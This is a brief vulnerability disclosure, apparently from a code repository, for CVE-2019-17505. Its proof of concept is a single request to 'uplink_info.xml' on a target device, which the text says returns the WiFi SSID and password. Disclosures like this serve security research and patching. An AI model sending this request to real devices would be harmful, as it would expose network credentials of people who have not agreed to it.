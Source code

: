 #### PoC
http://targetip/uplink_info.xml

you can get the WIFI SSID and password

![poc](info_leak.png)

#### CVE ID
CVE-2019-17505